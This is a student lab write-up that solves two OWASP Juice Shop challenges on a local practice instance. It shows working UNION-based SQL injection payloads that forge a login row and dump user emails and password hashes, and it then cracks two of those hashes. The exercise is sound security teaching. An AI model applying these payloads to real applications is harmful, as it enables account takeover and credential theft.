







# SQL Injection Extra Challenges — OWASP Juice Shop

**Course:** [505MI] Cybersecurity Lab A.Y. 2025/2026  
**Author:** Francesca Craievich  
**Target:** OWASP Juice Shop  
**Tools:** Burp Suite Community Edition, Firefox with proxy, Docker  

---

## 1. Introduction

This report documents two additional SQL Injection challenges on OWASP Juice Shop: **Ephemeral Accountant** (authentication bypass) and **User Credentials** (data extraction). These challenges build on the techniques explored in the main lab report (`05_SQLI`), where the Login Bender challenge demonstrated comment-based authentication bypass and the Database Schema challenge demonstrated UNION-based data extraction. The Ephemeral Accountant challenge extends the UNION technique to fabricate an entire user row, while the User Credentials challenge applies the same extraction method to retrieve sensitive data.

The Juice Shop instance was run locally via Docker:

```bash
docker run --rm -p 3000:3000 bkimminich/juice-shop
```

Firefox was configured to proxy all traffic through Burp Suite on port 8080.

---

## 2. Authentication Bypass — Ephemeral Accountant

**Challenge:** *Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user.*

**Vulnerable endpoint:** `POST /rest/user/login`

### 2.1 Assumptions

The login query is:

```sql
SELECT * FROM Users WHERE email='$email' AND password='$hash'
```

Normally this returns a row if the user exists. But `acc0unt4nt` is not registered so the `WHERE` clause will never match any row, regardless of what is injected. The comment-based bypass from the Login Bender challenge (main report) is useless here. 
A different approach is needed: injecting a `UNION SELECT` to fabricate a user row directly in the query result, without it ever existing in the database.

From the Database Schema challenge (main report, `05_SQLI`), the `Users` table has 13 columns: `id`, `username`, `email`, `password`, `role`, `deluxeToken`, `lastLoginIp`, `profileImage`, `totpSecret`, `isActive`, `createdAt`, `updatedAt`, `deletedAt`.


### 2.2 Exploitation

The payload was built incrementally by analyzing each failure:

**Attempt 1** - All NULL values except email:
```
' UNION SELECT NULL,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```
**Result:** `401 Invalid email or password`. The application needs a numeric `id` to generate the authentication token.


**Attempt 2** - Added `id=15`:
```
' UNION SELECT 15,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
```
**Result:** `401` with `"status":"totp_token_required"`. The `totpSecret` column defaults to `''` (empty string), not `NULL`. Setting it to `NULL` made the application interpret it as TOTP being configured.



**Attempt 3** - Set `totpSecret` to empty string:
```
' UNION SELECT 15,NULL,'acc0unt4nt@juice-sh.op',NULL,NULL,NULL,NULL,NULL,'',NULL,NULL,NULL,NULL--
```
**Result:** `200 OK` with a valid authentication token, but the challenge banner did not trigger. The challenge validator requires specific field values beyond just a successful login.



**Attempt 4** - Populated all critical fields:
```
' UNION SELECT 15,'acc0unt4nt@juice-sh.op','acc0unt4nt@juice-sh.op','12345','accounting',NULL,NULL,NULL,'',NULL,NULL,NULL,NULL--
```
**Result:** `200 OK` and the challenge was solved. The validator checks that `role='accounting'` and that the password and username fields are populated.




---

## 3. Data Extraction — User Credentials

**Challenge:** *Retrieve a list of all user credentials via SQL Injection.*

**Vulnerable endpoint:** `GET /rest/products/search?q=`

### 3.1 Assumptions

From the schema extracted in the Database Schema challenge (main report, `05_SQLI`), the `Users` table contains `id`, `email`, and `password` columns. A `UNION SELECT` targeting these columns can extract all credentials. The UNION requires two conditions: same number of columns (9, already known) and compatible data types. Since SQLite is permissive with types, `NULL` can be used for unused columns — it is compatible with any data type, making it a cleaner and more portable choice than placeholder strings.

### 3.2 Exploitation

```
http://localhost:3000/rest/products/search?q=test')) UNION SELECT id,email,password,NULL,NULL,NULL,NULL,NULL,NULL FROM Users--
```

The response returned a JSON array where each entry contains a user's `id`, `email` (in the `name` field), and `password` hash (in the `description` field).
Sample results:

| Email | MD5 Hash |
|---|---|
| admin@juice-sh.op | `0192023a7bbd73250516f069df18b500` |
| jim@juice-sh.op | `e541ca7ecf72b8d1286474fc613e5e45` |
| bender@juice-sh.op | `0c36e517e3fa95aabf1bbffc6744a4ef` |





### 3.3 Hash cracking

The passwords are stored as unsalted MD5 hashes. Using CrackStation, two hashes were reversed instantly: `admin@juice-sh.op` → `admin123`, `jim@juice-sh.op` → `ncc-1701` . 





---

## 4. Conclusions

These two additional challenges extend the SQL injection techniques from the main lab. The Ephemeral Accountant challenge shows how `UNION SELECT` can go beyond data extraction to fabricate entire authentication records, logging in as a user that never existed in the database. The User Credentials challenge demonstrates the real-world impact of SQLi: once the schema is known, extracting sensitive data like password hashes is straightforward, and weak hashing (unsalted MD5) makes password recovery trivial. 

---

> **Disclosure:** An LLM (Claude) was used to assist with the organization and formatting of this report.
